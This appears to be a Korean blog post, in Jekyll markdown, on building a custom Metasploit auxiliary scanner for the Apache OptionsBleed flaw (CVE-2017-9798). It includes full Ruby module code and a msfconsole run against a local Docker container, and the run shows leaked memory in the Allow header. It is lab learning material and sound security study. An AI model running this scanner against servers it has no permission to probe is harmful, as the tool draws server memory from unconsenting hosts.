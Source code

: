 ```yaml
---
layout: post
title: "Metasploit 개발 환경 구축하기"
categories: [보안, 취약점스캐너]
tags: [취약점, 스캐너, metasploit, 개발환경 구축]
toc: true
last_modified_at: 2023-09-22 15:02:00 +0900
---
```


# 개요
- Metasploit에서 자기 자신의 모듈을 개발하는 방법을 알아본다. 
- 예전에 검증했던 Apache OptionsBleed 취약점을 테스트하는 스캐너를 조금 개조해서 자신의 스캐너를 만들어보자. 

# 타겟 서버 준비
테스트할 대상이 되는 서버를 준비해둘 필요가 있다. [예전 POC]({% post_url 2023-08-10-cve-2017-9798-apache-optionsbleed %})에서 컨테이너를 만들어 두었으므로 쉽게 준비할 수 있다. 

```sh
docker run -p 500:80 -d --rm optionsbleed:httpd_2.4.12 
```

# 개발
## 스캐너 파일 생성
- modules/scanner/http에 apache_optionsbleed2.rb 를 생성한다.
- 코드는 modules/scanner/http에 apache_optionsbleed.rb 를 거의 복붙하는 형태로 작성할 것이다. 

## 클래스 선언
다음과 같이 선언부를 작성한다. 필요한 Mixin도 추가한다. 

```rb

class MetasploitModule < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report

end
```

## initialize함수 작성
- initialize함수를 작성한다. Name, Description, Author, References, DisclosureDate, License, Notes 등을 적는다. 각 항목의 값은 배열로 줘도 된다. 
- register_options에 어떤 파라메터가 필요한지를 적는다. 
- 가장 우측에 적힌 값은 디폴트 값이다. 예를 들어 아래 코드에서 TARGETURI 파라메터의 디폴트 값은 /로 주고 있다. 

```rb

def initialize(info = {})
    super(update_info(info,
        'Name' => 'Apache Optionsbleed Scanner2',
        'Description' => %q{
        This module scans for the Apache optionsbleed vulnerability where the Allow
        response header returned from an OPTIONS request may bleed memory if the
        server has a .htaccess file with an invalid Limit method defined.
        },
        'Author' => [
        'Hanno Böck', # Vulnerability discovery
        'Moon', # Metasploit module
        ],
        'References' => [
        [ 'CVE', '2017-9798' ],
        [ 'EDB', '42745' ],
        [ 'URL', 'https://github.com/hannob/optionsbleed' ],
        [ 'URL', 'https://blog.fuzzing-project.org/60-Optionsbleed-HTTP-OPTIONS-method-can-leak-Apaches-server-memory.html' ]
        ],
        'DisclosureDate' => '2017-09-18',
        'License' => MSF_LICENSE,
        'Notes' =>
            {
                'AKA' => ['Optionsbleed']
            }
    ))

    register_options([
        OptString.new('TARGETURI', [true, 'The URI to the folder with the vulnerable .htaccess file', '/']),
        OptInt.new('REPEAT', [true, 'Times to attempt', 40]),
        OptBool.new('BUGS', [true, 'Print if any other Allow header bugs are found', true])
    ])
end
```

## get_allow_header 함수를 작성
- get_allow_header함수를 작성한다. 
- 이 함수는 타겟 서버에 OPTIONS 메서드를 보내 서버가 응답해주는 Allow 헤더 값을 얻어오는 함수다. 
- send_request_raw함수로 HTTP 요청을 보낼 수 있다. 
- fail_with함수로 에러를 핸들링 할 수 있다. 
- datastore는 유저가 지정한 값을 얻어올 수 있는 것으로 보인다. (RHOST나 RPORT 값도 얻어올 수 있을 것이다.)

```rb
 def get_allow_header(ip)
    res = send_request_raw({
      'version' => '1.1',
      'method'  => 'OPTIONS',
      'uri'     => datastore['TARGETURI']
    }, 10)

    fail_with(Failure::Unreachable, "#{peer} - Failed to respond") unless res
    fail_with(Failure::UnexpectedReply, "#{peer} - No Allow header identified") unless res.headers['Allow']
    res.headers['Allow']
  end
```

## run_host함수 작성
- run_host함수를 작성한다. 이 함수는 프레임워크에 의해 호출되는 것으로 보인다. 
- print_status, vprint_status, print_good 등의 함수로 콘솔에 출력할 수 있는 것으로 보인다. 
- 취약점을 발견했을 때 출력하는 용도로 print_good함수를 쓰고 있는 것을 볼 수 있다. 
- report_vuln함수로 발견한 취약한 서버의 정보를 어딘가로 레포트하는 것을 볼 수 있다. (어디에서 쓰이는지는 잘 모르겠다.)
- 취약점을 발견했을 때 출력하는 코드를 추가하였다. 

```rb
 def run_host(ip)
    # Apache bug 61207 regex
    bug_61207 = /^[a-zA-Z]+(-[a-zA-Z]+)? *(, *[a-zA-Z]+(-[a-zA-Z]+)? *)*$/
    # Launchpad bug 1717682 regex
    bug_1717682 = /^[a-zA-Z]+(-[a-zA-Z]+)? *( +[a-zA-Z]+(-[a-zA-Z]+)? *)+$/
    uniques = []
    already_reported = false

    for counter in 1..datastore['REPEAT']
      allows = get_allow_header(ip)
      next if uniques.include?(allows) # no need to re-process non-new items
      uniques << allows
      if allows =~ bug_61207
        if allows.split(',').length > allows.split(',').uniq.length # check for repeat items
          print_status('Some methods were sent multiple times in the list. ' +
                       'This is a bug, but harmless. It may be Apache bug #61207.') if datastore['BUGS']
        else
          vprint_status("Request #{counter}: [Standard Response] -> #{allows}")
        end
      elsif allows =~ bug_1717682 && datastore['BUGS']
        print_status('The list of methods was space-separated instead of comma-separated. ' +
                     'This is a bug, but harmless. It may be Launchpad bug #1717682.')
      else
        print_good("[!] Find!") # for test 
        print_status("[!] print_status Find!") # for test
        vprint_status("[!] vprint_status Find!") # for test
        print_good("Request #{counter}: [OptionsBleed Response] -> #{allows}")
      end
      next unless already_reported
        report_vuln(
          :host => ip,
          :port => rport,
          :name => self.name,
          :refs => self.references
        )
        already_reported = true
    end
  end

```

# 테스트 
테스트결과는 다음과 같다. 이를 통해 다음을 알 수 있다. 
- use auxiliary/scanner/http/apache_optionsbleed2 커맨드를 사용해서 새로 만든 모듈을 로딩하는데 성공했다. 
- exploit 커맨드를 수행하면 모듈의 run_host함수가 수행된다. 
- print_good함수로 출력하면 콘솔에서 앞에 연두색의 `[+]`가 붙여져서 출력된다. 
- print_status함수로 출력하면 콘솔에서 앞에 파란색의 `[*]`가 붙여져서 출력된다. 
- vprint_status로 출력한 내용은 콘솔에 출력되지 않는다. (어디로 출력되는 걸까?)

```sh
msfconsole
msf6 > use auxiliary/scanner/http/apache_optionsbleed2
msf6 auxiliary(scanner/http/apache_optionsbleed2) > set RHOSTS localhost
RHOSTS => localhost
msf6 auxiliary(scanner/http/apache_optionsbleed2) > set RPORT 500
RPORT => 500
msf6 auxiliary(scanner/http/apache_optionsbleed2) > exploit

[+] [!] Find!
[*] [!] print_status Find!
[+] Request 15: [OptionsBleed Response] -> OPTIONS,▒Th ,GET,HEAD,POST,TRACE
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/apache_optionsbleed2) >

```

![테스트결과](/images/metasploit-sample-code-result.png)

# 감상
- 어거지로 코드로 복붙했지만 자신의 모듈을 개발해 보았다. 
- 모듈을 수정해서 특정 값을 출력한다거나 몇 가지 알게된 것도 있고, 아직 궁금증이 남아있는 부분도 있다. vprint_status는 어디로 출력하는 함수인가? report_vuln로 보고된 내용은 어디에서 사용되는가? 
- 일단 샘플 모듈 개발은 이 것으로 마치고자 한다. 

# 참고 
- https://docs.metasploit.com/docs/development/developing-modules/guides/get-started-writing-an-exploit.html
- https://docs.metasploit.com/docs/development/developing-modules/guides/scanners/how-to-write-a-http-loginscanner-module.html
- https://docs.metasploit.com/docs/development/developing-modules/guides/how-to-get-started-with-writing-an-auxiliary-module.html